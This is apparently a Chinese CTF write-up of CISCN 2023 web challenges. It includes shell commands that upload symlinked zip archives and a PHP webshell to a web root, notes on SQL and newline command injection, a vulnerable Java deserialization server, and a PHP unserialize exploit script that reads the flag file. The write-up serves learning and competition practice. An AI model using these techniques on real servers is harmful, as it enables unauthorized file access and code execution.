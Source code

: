 
# web
### unzip

上传一个指向 /var/www/html 的软连接 root.zip
```shell
ln -s /var/www/html root;zip -y root.zip root
```


上传一个指向 root/shell.php 的软连接
```shell
mkdir root;nano root/shell.php;zip -ry shell.zip root/
```

访问url+shell.php

### dumpit

访问url,得到提示

> use ?db=&table_2_query= or ?db=&table_2_dump= to view the tables! etc:?db=ctf&table_2_query=flag1

给的参数分两种

1. ?db=&table_2_query= 指定数据库和表查询,存在sql注入
2. ?db=&table_2_dump= 根据db和dump参数生成dumplog文档

sql注入发现没有flag

参数存在 `%00` 时会报错



猜测命令执行,使用 %0A换行绕过,执行多条命令

### BackendService

---

### go_session


### DeserBug
#java
```java
public class Testapp {
    public static void main(String[] args) {
        HttpUtil.createServer(8888).addAction("/", request, response -> {
            String result;
            String bugstr = request.getParam("bugstr");
            if (bugstr == null) {
                response.write("welcome,plz give me bugstr", ContentType.TEXT_PLAIN.toString());
            }
            try {
                byte[] decode = Base64.getDecoder().decode(bugstr);
                ObjectInputStream inputStream = new ObjectInputStream(new ByteArrayInputStream(decode));
                Object object = inputStream.readObject();
                result = object.toString();
            } catch (Exception e) {
                Myexpect myexpect = new Myexpect();
                myexpect.setTypeparam(new Class[]{String.class});
                myexpect.setTypearg(new String[]{e.toString()});
                myexpect.setTargetclass(e.getClass());
                try {
                    result = myexpect.getAnyexcept().toString();
                } catch (Exception ex) {
                    result = ex.toString();
                }
            }
            response.write(result, ContentType.TEXT_PLAIN.toString());
        }).start();
    }
}
```
接收`bugstr`参数进行反序列化

### [CISCN 2023 华北]ez_date
#hash
```php
<?php
error_reporting(0);
highlight_file(__FILE__);
class date{
    public $a;
    public $b;
    public $file;
    public function __wakeup()
    {
        if(is_array($this->a)||is_array($this->b)){
            die('no array');
        }
        //弱比较  1与'1'比较
        if( ($this->a !== $this->b) && (md5($this->a) === md5($this->b)) && (sha1($this->a)=== sha1($this->b)) ){
            $content=date($this->file);
            $uuid=uniqid().'.txt';
            file_put_contents($uuid,$content);
            $data=preg_replace('/((\s)*(\n)+(\s)*)/i','',file_get_contents($uuid));
            echo file_get_contents($data);
        }
        else{
            die();
        }
    }
}

unserialize(base64_decode($_GET['code']));
```

```php
<?php  
class date{  
public $a;  
public $b;  
public $file;  
}  
$a=new date();  
$a->a=1;  
$a->b='1';  
$a->file='/f\l\a\g';  
echo base64_encode(serialize($a));  
?>
```

# reverse

# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   12:58
